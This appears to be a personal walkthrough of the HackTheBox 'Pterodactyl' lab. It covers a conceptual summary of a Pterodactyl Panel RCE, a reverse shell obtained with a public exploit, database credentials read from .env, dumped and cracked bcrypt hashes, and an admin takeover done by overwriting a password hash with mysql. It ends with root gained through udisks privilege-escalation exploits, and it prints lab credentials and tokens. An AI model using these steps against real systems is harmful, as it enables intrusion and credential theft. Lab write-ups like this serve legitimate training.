

# Pterodactyl



nmap results:


HackTheBox Season 10, Medium difficulty, Linux machine.

port 22 is open, SSH

port 80 is open, HTTP, on nginx 1.21.5

http-title: http://pterodactyl.htb/

443 closed. https

8080 closed. http-proxy

will add pterodactyl.htb to /etc/hosts


running dirb on the URL

exploit for pterodactyl:


this is the ffuf command ran:

ffuf -u [http://10.129.3.246/](http://10.129.3.246/) \
-H "Host: [FUZZ.example.com](http://fuzz.example.com/)" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
-fs 0

the URL hangs a lot, so we ran

curl -I -H "Host: pterodactyl.htb" [http://10.129.3.246/panel](http://10.129.3.246/panel)
curl -I -H "Host: pterodactyl.htb" [http://10.129.3.246/auth](http://10.129.3.246/auth)
curl -I -H "Host: pterodactyl.htb" [http://10.129.3.246/api](http://10.129.3.246/api)
curl -I -H "Host: pterodactyl.htb" [http://10.129.3.246/daemon](http://10.129.3.246/daemon)

HTTP/1.1 404 Not Found
Server: nginx/1.21.5
Date: Tue, 10 Feb 2026 21:45:19 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive

so we need to confirm ‘/’ is the only hanging path:

curl -m 5 -v -H "Host: pterodactyl.htb" [http://10.129.3.246/](http://10.129.3.246/)

it DID timeout, so this is confirmed.

now we try HTTP methods

curl -X OPTIONS -v -H "Host: pterodactyl.htb" [http://10.129.3.246/](http://10.129.3.246/)
curl -X POST    -v -H "Host: pterodactyl.htb" [http://10.129.3.246/](http://10.129.3.246/)


so we finally see something.

this confirms that panel.pterodactyl.htb is the live app. the 200 OK says it.

we now add to /etc/hosts


to make sure it works:


this is the page:


## What CVE‑2025‑49132 is (high level)

**CVE‑2025‑49132** is a **remote code execution (RCE)** vulnerability affecting certain versions/configurations of the **Pterodactyl Panel** (Laravel-based).

At a high level, it is caused by:

> **Improper trust and validation between the Pterodactyl panel and its backend components**, combined with unsafe handling of user‑controlled data that eventually reaches a command execution context.
> 

In short:

- The panel trusts something it shouldn’t
- User-controlled input crosses a security boundary
- That input gets executed by the server

## Architecture refresher (important to understand the bug)

Pterodactyl has **two major pieces**:

1. **Panel (Laravel / PHP)**
    - Web UI
    - Auth, users, API keys
    - Sends commands to nodes
2. **Daemon / Wings (runs on nodes)**
    - Actually starts containers
    - Executes system-level commands
    - **Extremely sensitive**

The panel is *supposed* to be a **safe gatekeeper**.

This CVE breaks that assumption.

## Root cause of CVE‑2025‑49132

The vulnerability exists because of a **broken trust chain**:

### 🔴 Core problems

- Certain API endpoints or internal jobs:
    - **Accept user input**
    - **Do not sufficiently validate or sanitize it**
- That input:
    - Is stored or forwarded
    - Eventually reaches a function that spawns processes or executes shell commands
- Laravel’s protections (escaping, validation) are **bypassed due to logic flaws**, not syntax errors

This is **not** classic SQL injection or XSS.

It’s a **logic-level RCE**.

## Typical exploitation flow (conceptual)

Here’s the *idea*, not the command-by-command exploit:

### 1️⃣ Attacker gets *some* authenticated context

Not necessarily admin.

Examples:

- Low-privileged panel user
- API key with limited scope
- Misconfigured registration or leaked credentials

### 2️⃣ Attacker controls a field that *should be harmless*

For example (conceptually):

- Server name
- Startup command
- Environment variable
- Backup path
- Allocation metadata
- Queue/job payload

These fields **look non-executable**.

### 3️⃣ Panel forwards this data to a backend process

At some point:

- Laravel job
- Daemon request
- System helper
- Task runner

The panel assumes:

> “This value is safe because it came from the panel.”
> 

That assumption is wrong.

---

### 4️⃣ Unsafe execution occurs

Because of:

- String concatenation
- Shell execution (`exec`, `proc_open`, etc.)
- Lack of escaping
- Implicit trust in panel-generated data

The attacker’s input gets executed as **system commands**.

💥 **RCE achieved**

---

## Why this bug is dangerous

### 🔥 Impact

- RCE as the **web server user**
- Potential container escape depending on setup
- Full node compromise in bad configurations
- Access to:
    - API keys
    - Environment secrets
    - Database credentials
    - Other tenants

### 😬 Why it slipped through

- Code paths were “internal-only”
- Developers assumed panel input = trusted
- Multi-component architecture hid the danger

This is a **classic trust-boundary failure**

---

---

## Defensive takeaway (real-world lesson)

From a defender perspective, this CVE teaches:

- Never trust “internal” input
- API boundaries are security boundaries
- Laravel validation ≠ execution safety
- Anything that touches a shell must be escaped, always

---

this is the first webpage:


so, we know about an exploit for pterodactyl panels.

we dl the exploit

we start a nc listener, waiting for the revshell


we write a shell script, and keep it in the pterodactyl directory.


we host a staging server with python:


we run the exploit:


in the shell of the exploit, we curl our shell script from our pterodactyl directory on our python server:


which then, causes our listener to pick up a connection, giving us a shell.


we go to the root directory.


from ehre we go to the home directory.

we ‘ls’ and see two names, ‘headmonitor’ and ‘phileasfogg3’

we try to cd into headmonitor, but get permission denied.

once we cd into phil, we find the user flag.


this shows it’s running MariaDB 11.8.3

in /var/www/pterodactyl you find the .env file


here we find the database cred


ERROR 1064 (42000) at line 3: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'python3 -c 'import pty; pty.spawn("/bin/bash

SHOW DATABASES;
python3 -c impo...' at line 1
sh-4.4$ SHOW DATABSES;
SHOW DATABASES;
SHOW DATABSES;
sh: SHOW: command not found
sh-4.4$ SHOW DATABASES;
sh: SHOW: command not found
sh-4.4$ mysql -h 127.0.0.1 -P 3306 -u pterodactyl -p'PteraPanel' -D panel -e "SELECT email,username,password FROM users;"

<nel -e "SELECT email,username,password FROM users;"
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
email	username	password
headmonitor@pterodactyl.htb	headmonitor	$2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
phileasfogg3@pterodactyl.htb	phileasfogg3	$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
sh-4.4$
sh-4.4$
sh-4.4$
sh-4.4$
sh-4.4$
sh-4.4$


so finally after finding the creds in the .env file, we entered that mysql command, to dump the usernames and passwords, and get some hashes.

now we will crack these hashes.

when we look it up, they seem to be ‘bcrypt’

first we through them into a file named hashes.txt


then we attempt to use john to crack them

also trying hashcat:


cracked hash:


!QAZ2wsx 

 (phileasfogg3)

when trying to create a new bcrypt hash:

┌──(kali㉿kali)-[~]
└─$ python3 - << 'EOF'
import bcrypt
print(bcrypt.hashpw(b"Password123", bcrypt.gensalt()).decode())
EOF

$2b$12$L4vQ00bd1nkyhlZ.9r733e.YwxsS9eb.ROQrxEujI7UNPI/.CCOLS

┌──(kali㉿kali)-[~]
└─$


so we’re going to try and update the DB from the reverse shell

we first generate a new hash in the terminal:


ok now oncecreating that, and changing the b to a y, you reset the password for headmonitor to be password 123, this is the webpage


that made the password for headmonitor to be password123

logged in as headmonitor on web browser


mysql -h 127.0.0.1 -u pterodactyl -p'PteraPanel' -D panel \
-e "UPDATE users SET password='\$2y\$10\$zxKn8cYrpeElOpuPe4LJ5eXOFWf7MoaqEvq1GYS2FBiQTuthtBeXK' WHERE username='headmonitor';"

in case of starting over: 

You’re exploiting **Pterodactyl Panel**, and since port **80 is public**, you actually **don’t even need the initial exploit anymore** once you know the DB creds.

So we simplify.

---

```

```

---

```bash
mysql -h 127.0.0.1 -u pterodactyl -p'PteraPanel' -D panel \
-e"UPDATE users SET password='\$2y\$10\$REPLACEHASH' WHERE username='headmonitor';"
```

---

### 

---

```bash
python3 - <<'EOF'
import bcryptprint(bcrypt.hashpw(b"Password123", bcrypt.gensalt(rounds=10)).decode())
EOF
```

Change:

```
$2b$
```

→

```
$2y$
```

---

# Step 3 — Login

Browser:

```
http://TARGET-IP
```

Login:

```
headmonitor / Password123
```

finally, in the Service Management section, in Nests, there’s a “Import Egg” option, where you can upload a file.


i will now try to upload a shell

didn’t work.

was told to ignore the website.

and check the /var directory.

this is the output for some var dirs.
phileasfogg3@pterodactyl:/var> ls -la /etc/pterodactyl
total 4
drwxr-xr-x 1 root root   20 Sep 16 21:22 .
drwxr-xr-x 1 root root 4428 Jan  2 09:35 ..
-rw-r--r-- 1 root root 2376 Sep 16 21:31 config.yml
phileasfogg3@pterodactyl:/var> cat /etc/pterodactyl/config.yml
debug: false
app_name: Pterodactyl
uuid: b0ba55f6-a6a0-457a-8c48-2f44fef84ab9
token_id: fyqnJBhstNPUR8lN
token: nrV4yF4x7e0KkVaab4ptA1XZJwlExVJzUJnWqOeczWfTZnOb5avVzE9CynifW4ax
api:
host: 0.0.0.0
port: 8080
ssl:
enabled: false
cert: /etc/letsencrypt/live/pterodactyl.htb/fullchain.pem
key: /etc/letsencrypt/live/pterodactyl.htb/privkey.pem
disable_remote_download: false
upload_limit: 100
trusted_proxies: []
system:
root_directory: /var/lib/pterodactyl
log_directory: /var/log/pterodactyl
data: /var/lib/pterodactyl/volumes
archive_directory: /var/lib/pterodactyl/archives
backup_directory: /var/lib/pterodactyl/backups
tmp_directory: /tmp/pterodactyl
username: pterodactyl
timezone: Europe/Athens
user:
rootless:
enabled: false
container_uid: 0
container_gid: 0
uid: 1001
gid: 100
disk_check_interval: 150
activity_send_interval: 60
activity_send_count: 100
check_permissions_on_boot: true
enable_log_rotate: true
websocket_log_count: 150
sftp:
bind_address: 0.0.0.0
bind_port: 2022
read_only: false
crash_detection:
enabled: true
detect_clean_exit_as_crash: true
timeout: 60
backups:
write_limit: 0
compression_level: best_speed
transfers:
download_limit: 0
openat_mode: auto
docker:
network:
interface: 172.18.0.1
dns:
- 1.1.1.1
- 1.0.0.1
name: pterodactyl_nw
ispn: false
driver: bridge
network_mode: pterodactyl_nw
is_internal: false
enable_icc: true
network_mtu: 1500
interfaces:
v4:
subnet: 172.18.0.0/16
gateway: 172.18.0.1
v6:
subnet: fdba:17c8:6c94::/64
gateway: fdba:17c8:6c94::1011
domainname: ""
registries: {}
tmpfs_size: 100
container_pid_limit: 512
installer_limits:
memory: 1024
cpu: 100
overhead:
override: false
default_multiplier: 1.05
multipliers: {}
use_performant_inspect: true
userns_mode: ""
log_config:
type: local
config:
compress: "false"
max-file: "1"
max-size: 5m
mode: non-blocking
throttles:
enabled: true
lines: 2000
line_reset_interval: 100
remote: [http://panel.pterodactyl.htb](http://panel.pterodactyl.htb/)
remote_query:
timeout: 30
boot_servers_per_page: 50
allowed_mounts: []
allowed_origins: []
allow_cors_private_network: false
ignore_panel_config_updates: false
phileasfogg3@pterodactyl:/var> find /var -writable -type d 2>/dev/null
/var/tmp

we find the yaml file


now, we make a JSON upload into the webserver, using “imoprt egg”


getting a 500 server error

trying “export working egg first”

that didn’t work either…..

going back through the ‘var’ directory.

someone on Discord says to check /var/mail

we find this in the /var/mail directory


based off, i look up “udisk privilege escalation, github poc”

this CVE comes up

[https://github.com/guinea-offensive-security/CVE-2025-6019](https://github.com/guinea-offensive-security/CVE-2025-6019)


This is a Local Privilege Escalation(LPE) vulnerability in udisks, allowing a root shell. Which is what we need, because I only have the root flag left to find.

downloaded the script, trying to run, but don’t have dependencies


making sure i got the dependency installed:


the ‘which’ command, just shows where in the filesystem it is.

After getting the dependencies, and running the exploit:


using the L Local option.

sending [exploit.sh](http://exploit.sh) to target:


now, sending ‘xfs.image’ to the target (takes forever):


this is showing that the ‘xfs’ file successfully was sent to the target:


this is what you get:


so, we have to modify the “check_dependencies” part in [exploit.sh](http://exploit.sh) to not check them.


now running it, it did not go through for a different reason:


we have to run 6018 first

we don’t have it and shouldn’t be running as root, so we exit root


we need the 6018.py, so we look it up and find the github for it:


then, we ‘wget’ the raw file in our terminal:


now, we have it in our directory.

now we need a virtual environment:


now we build the file:


sending 6018 to target:


finally, when running 6018, get the xploit shell


finally got it.

after transfering the exploit and the other python script to the target, you then had to run the script, giving you the root shell, which then lets you get the root flag.

=D
